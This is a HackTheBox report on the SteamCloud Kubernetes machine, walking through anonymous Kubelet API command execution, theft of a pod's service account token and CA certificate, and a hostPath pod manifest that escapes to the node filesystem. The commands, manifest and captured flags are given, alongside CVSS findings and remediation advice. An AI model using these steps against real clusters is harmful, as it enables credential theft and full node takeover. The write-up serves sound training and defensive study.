# SteamCloud — HackTheBox Report

| Difficulty | OS    | Category   |
| ---------- | ----- | ---------- |
| Easy       | Linux | Kubernetes |

> Writeup of a retired SteamCloud machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `SteamCloud / IP: 10.129.96.167` **Platform:** `HackTheBox` **Date Completed:** `2026-09-21` **Assessment Type:** `Kubernetes / Container Infrastructure` **Approach:** `Black box` — tested with `no prior knowledge`.

SteamCloud is a Kubernetes-focused machine. A full port scan revealed a live Kubernetes cluster exposing an unauthenticated Kubelet API on port 10250, allowing enumeration of every pod running on the node without credentials. Kubelet's anonymous access also permitted direct command execution inside the `nginx` pod via its `/exec` endpoint. That pod's mounted service account token and CA certificate were extracted and used to authenticate to the Kubernetes API server (port 8443) with `kubectl`. Permission enumeration showed the compromised service account had rights to create, get, and list pods in the `default` namespace. This was abused to deploy a malicious pod that mounted the underlying host's root filesystem, granting full read/write access to the node and ultimately both the user and root flags.

---

## Scope

| Host / URL / IP Address | Description                                             |
| ------------------------ | -------------------------------------------------------- |
| `10.129.96.167`           | Target machine — Linux host running a Kubernetes cluster |

> Testing was restricted to the host(s) listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — full TCP port scan to identify all exposed services.
2. **Scanning & Enumeration** — probing Kubernetes-specific ports (Kubelet API, etcd, API server) for unauthenticated access.
3. **Vulnerability Analysis** — identifying anonymous Kubelet access and enumerating pods/RCE-capable containers.
4. **Exploitation** — executing commands inside a pod via the Kubelet API, harvesting its service account credentials.
5. **Privilege Escalation** — using the harvested credentials against the Kubernetes API server to deploy a privileged pod that mounts the host filesystem.
6. **Post-Exploitation** — validating impact and capturing flags/evidence from the underlying host.

---

## Tools Used

| Tool         | Purpose                                                        |
| ------------ | ---------------------------------------------------------------- |
| `nmap`       | Full TCP port scanning                                           |
| `curl`       | Direct interaction with the Kubelet API and HTTPS server         |
| `kubeletctl` | Enumerating pods and executing commands via the Kubelet API      |
| `kubectl`    | Authenticating to and interacting with the Kubernetes API server |

---

## Assessment Summary (Findings Overview)

The attack path moved from an unauthenticated Kubelet API exposing cluster internals, through command execution inside a low-privilege pod, to full node compromise via a mis-scoped service account permission set.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 2     |
| High          | 1     |
| Medium        | 0     |
| Low           | 0     |
| Informational | 0     |

| # | Severity | Finding Name                                                       |
| --- | -------- | -------------------------------------------------------------------- |
| 1 | Critical | Unauthenticated Kubelet API Allows Remote Code Execution             |
| 2 | Critical | Container Escape / Host Compromise via Over-Permissioned Service Account |
| 3 | High     | Kubelet API Exposes Full Cluster and Pod Configuration to Anonymous Users |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

### 1.1. Reconnaissance — Full Port Scan

```bash
nmap 10.129.96.167 --max-retries=0 -T4 -p-
```



**Findings:** Open ports included SSH (22) and a cluster of Kubernetes-related services: `2379`/`2380` (etcd client/server), `8443` (Kubernetes API server, reported as `https-alt`), `10249` (kube-proxy metrics), `10250` (Kubelet API), and `10256` (kube-proxy health check).

### 1.2. Enumeration — Testing the API Server

```bash
curl https://10.129.96.167:8443/ -k
```



**Findings:** The Kubernetes API server correctly rejects unauthenticated (`system:anonymous`) access to the root path, returning a `403 Forbidden`.

### 1.3. Enumeration — Unauthenticated Kubelet API (Finding #3)

```bash
curl https://10.129.96.167:10250/pods -k
```



**Findings:** Unlike the API server, the Kubelet API on port 10250 returned a full, detailed `PodList` with no authentication required, including control-plane pods (`etcd`, `kube-apiserver`, `kube-scheduler`, `kube-controller-manager`) and their configuration.

```bash
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
chmod a+x ./kubeletctl_linux_amd64
sudo mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

```bash
kubeletctl --server 10.129.96.167 pods
```



**Findings:** `kubeletctl` confirmed the same pod list in a readable format, listing control-plane components in `kube-system` plus a single application pod, `nginx`, in the `default` namespace.

### 1.4. Vulnerability Analysis — Identifying RCE-Capable Pods (Finding #1)

```bash
kubeletctl --server 10.129.96.167 scan rce
```



**Findings:** Both the `kube-proxy-thvqw` and `nginx` pods were flagged as vulnerable to RCE via the Kubelet's `run`/`exec` capability, confirming that anonymous access includes command execution rights, not just read access.

### 1.5. Exploitation — Command Execution in the Nginx Pod

```bash
kubeletctl --server 10.129.96.167 exec "id" -p nginx -c nginx
```



**Findings:** Arbitrary command execution was confirmed inside the `nginx` container, running as `root` within the container's namespace.

### 1.6. Privilege Escalation — Harvesting the Pod's Service Account Token

```bash
kubeletctl --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx
```



```bash
kubeletctl --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```



**Findings:** Every pod is automatically mounted with a service account token and CA certificate to talk to the API server. Since command execution was already achieved, both secrets were trivially exfiltrated, providing everything needed to authenticate directly to the cluster's control plane.

### 1.7. Privilege Escalation — Authenticating to the API Server (Finding #2)

```bash
# save the certificate locally
nano ca.crt

# export the token as an environment variable
export token="eyJhbGciOiJSUzI1NiIs..."
```

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 get pods
```



```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 auth can-i --list
```



**Findings:** The default service account tied to the `nginx` pod was authorized to `get`, `create`, and `list` pods in the `default` namespace — far more permissive than the pod itself required, and enough to deploy new, attacker-controlled workloads on the cluster.

### 1.8. Exploitation — Deploying a Malicious Pod to Mount the Host Filesystem

The following manifest was saved as `f.yaml`, using the `nginx` image and mounting the host's root filesystem into the container:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 apply -f f.yaml
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.167:8443 get pods
```



**Findings:** The malicious pod (`nginxt`) was accepted and scheduled, mounting the entire host filesystem at `/root` inside the container — a direct container escape into the underlying node's filesystem.

### 1.9. Post-Exploitation — Flag Capture

```bash
kubeletctl --server 10.129.96.167 exec "cat /root/home/user/user.txt" -p nginxt -c nginxt
kubeletctl --server 10.129.96.167 exec "cat /root/root/root.txt" -p nginxt -c nginxt
```



**User flag:** `c6e369d83fae4a3e8f8c87dbcb564bac`
**Root flag:** `b842e278adaacdf6ade647715783aac5`

---

## Technical Findings Details

### 1. Unauthenticated Kubelet API Allows Remote Code Execution — Critical

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-306: Missing Authentication for Critical Function                                                                                          |
| **CVSS 3.1 Score**                 | 9.8 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`                                                                                            |
| **Description (Incl. Root Cause)** | The Kubelet API on TCP/10250 was configured to allow anonymous requests, including its `/exec`, `/run`, and `/cri` endpoints, without requiring any form of authentication or authorization (`--anonymous-auth` left enabled, and/or authorization mode not restricted to `Webhook`). |
| **Security Impact**                | Any network-adjacent, unauthenticated attacker could enumerate every pod on the node and execute arbitrary commands inside running containers, as demonstrated against the `nginx` pod. |
| **Affected Host(s)**               | 10.129.96.167:10250 (Kubelet API)                                                                                                                |
| **Remediation**                    | - Disable anonymous authentication on the Kubelet (`--anonymous-auth=false`).<br>- Set Kubelet authorization mode to `Webhook` so all requests are checked against RBAC.<br>- Restrict network access to the Kubelet API to only the control plane via firewall rules/network policies. |
| **References**                     | [Kubernetes Docs: Kubelet Authentication/Authorization](https://kubernetes.io/docs/reference/access-authn-authz/kubelet-authn-authz/) |

**Evidence:**

```
curl https://10.129.96.167:10250/pods -k
→ full PodList JSON returned with no credentials supplied

kubeletctl --server 10.129.96.167 exec "id" -p nginx -c nginx
→ uid=0(root) gid=0(root) groups=0(root)
```

---

### 2. Container Escape / Host Compromise via Over-Permissioned Service Account — Critical

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-269: Improper Privilege Management                                                                                                          |
| **CVSS 3.1 Score**                 | 9.9 — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                            |
| **Description (Incl. Root Cause)** | The default service account associated with the `nginx` pod was granted `create` rights on the `pods` resource in the `default` namespace. Combined with a lack of any admission control (e.g. Pod Security Admission/PodSecurityPolicy) restricting `hostPath` volume mounts, this allowed a pod definition mounting the host's root filesystem (`hostPath: /`) to be scheduled successfully. |
| **Security Impact**                | An attacker with only the low-privileged `nginx` pod's credentials could escalate to full read/write access on the underlying Kubernetes node's filesystem, resulting in complete compromise of the host (both `user.txt` and `root.txt` were retrieved this way). |
| **Affected Host(s)**               | 10.129.96.167:8443 (Kubernetes API server); underlying node filesystem                                                                          |
| **Remediation**                    | - Apply least-privilege RBAC: service accounts should not be granted `create`/`list`/`get` on `pods` unless explicitly required.<br>- Enforce Pod Security Standards (`restricted` profile) to block `hostPath` volumes, `hostNetwork`, and privileged containers cluster-wide.<br>- Disable `automountServiceAccountToken` for workloads that do not need API server access. |
| **References**                     | [Kubernetes Docs: Pod Security Standards](https://kubernetes.io/docs/concepts/security/pod-security-standards/), MITRE ATT&CK: T1611 — Escape to Host |

**Evidence:**

```
kubectl auth can-i --list
→ pods  [get create list]  (default namespace)

kubectl apply -f f.yaml
→ pod/nginxt created

kubeletctl exec "cat /root/root/root.txt" -p nginxt -c nginxt
→ b842e278adaacdf6ade647715783aac5
```

---

### 3. Kubelet API Exposes Full Cluster and Pod Configuration to Anonymous Users — High

| Field                              | Details                                                                                                                                        |
| ----------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-200: Exposure of Sensitive Information to an Unauthorized Actor                                                                             |
| **CVSS 3.1 Score**                 | 7.5 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`                                                                                            |
| **Description (Incl. Root Cause)** | The unauthenticated `/pods` endpoint on the Kubelet API returned complete configuration detail for every pod scheduled on the node — including control-plane pods, container images, command-line arguments, and volume mount paths — with no authentication required. |
| **Security Impact**                | This information disclosure gave a complete map of the cluster's internals (component names, namespaces, images, and mount points) prior to any exploitation, significantly easing reconnaissance and target selection for the subsequent RCE and privilege escalation steps. |
| **Affected Host(s)**               | 10.129.96.167:10250 (Kubelet API `/pods` endpoint)                                                                                              |
| **Remediation**                    | - Same as Finding #1: disable anonymous Kubelet authentication and restrict network reachability of port 10250 to the control plane only.<br>- Avoid embedding sensitive paths, secrets, or credentials in pod command-line arguments or environment variables where they could be exposed via such endpoints. |
| **References**                     | [Kubernetes Docs: Kubelet Authentication/Authorization](https://kubernetes.io/docs/reference/access-authn-authz/kubelet-authn-authz/) |

**Evidence:**

```
curl https://10.129.96.167:10250/pods -k
→ {"kind":"PodList","apiVersion":"v1", ... etcd-steamcloud, kube-apiserver-steamcloud, ...}
```


---

## Remediation Summary

### Short Term

- **Finding #1 / #3 (Anonymous Kubelet Access)** – Set `--anonymous-auth=false` and `--authorization-mode=Webhook` on the Kubelet immediately; restrict port 10250 to the control plane network only.
- **Finding #2 (Over-Permissioned Service Account)** – Revoke the `create`/`list` pod permissions from the default service account bound to the `nginx` workload; delete any pods created outside of normal deployment processes.

### Medium Term

- Enforce Pod Security Standards (`restricted` profile) across all namespaces to prevent `hostPath` mounts, `hostNetwork`, and privileged containers.
- Introduce dedicated, least-privilege service accounts per workload rather than relying on the `default` service account.

### Long Term

- Adopt a policy engine (e.g. OPA Gatekeeper, Kyverno) to enforce admission control rules cluster-wide.
- Establish regular Kubernetes configuration audits (e.g. `kube-bench`) as part of ongoing security operations.
- Provide Kubernetes security training to the platform/DevOps team covering RBAC least-privilege and Kubelet hardening.

---

## Lessons Learned / Skills Demonstrated

**Kubernetes Attack Surface Enumeration:** Identified and fingerprinted a live Kubernetes cluster purely from an nmap port scan, recognizing the significance of ports 2379/2380/8443/10250/10256.

**Unauthenticated API Abuse:** Directly queried and exploited the Kubelet API's `/pods` and `/exec` functionality with no credentials, using both raw `curl` and the purpose-built `kubeletctl` tool.

**Service Account Credential Harvesting:** Recognized that Kubernetes automatically mounts service account tokens/certificates into every pod, and exfiltrated them once code execution was achieved.

**RBAC Enumeration & Abuse:** Used `kubectl auth can-i --list` to map out exactly what a stolen credential was authorized to do, then crafted a targeted pod manifest to abuse those specific permissions.

**Container Escape via hostPath Mount:** Built and deployed a malicious pod specification that mounted the host's root filesystem, converting a namespace-scoped permission into full node compromise.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ----------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host             | Method                                                     | Notes                                   |
| ----------------- | ------------------------------------------------------------ | ----------------------------------------- |
| `10.129.96.167`    | Unauthenticated Kubelet `/exec` (RCE)                        | Command execution inside `nginx` pod      |
| `10.129.96.167`    | Stolen service account token → Kubernetes API server         | Authenticated as the `nginx` pod's default SA |
| `10.129.96.167`    | Malicious pod with `hostPath: /` mount                        | Full node filesystem access, root/user flags |

### C. Compromised Users / Credentials

| Identity                          | Method                                            | Notes                                             |
| ----------------------------------- | ---------------------------------------------------- | ---------------------------------------------------- |
| `nginx` pod (container root)        | Unauthenticated Kubelet `/exec`                      | Command execution as root inside the container      |
| `system:serviceaccount:default:default` | Extracted JWT token + CA cert from `nginx` pod   | Used to authenticate directly to the API server      |
| Host filesystem (effectively root)  | `hostPath` volume mount via `nginxt` pod              | Full read/write access, `user.txt` and `root.txt` captured |

### D. Command Reference Log

```bash
nmap 10.129.96.167 --max-retries=0 -T4 -p-
curl https://10.129.96.167:8443/ -k
curl https://10.129.96.167:10250/pods -k
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
chmod a+x ./kubeletctl_linux_amd64
sudo mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
kubeletctl --server 10.129.96.167 pods
kubeletctl --server 10.129.96.167 scan rce
kubeletctl --server 10.129.96.167 exec "id" -p nginx -c nginx
kubeletctl --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx
kubeletctl --server 10.129.96.167 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
nano ca.crt
export token="<redacted JWT>"
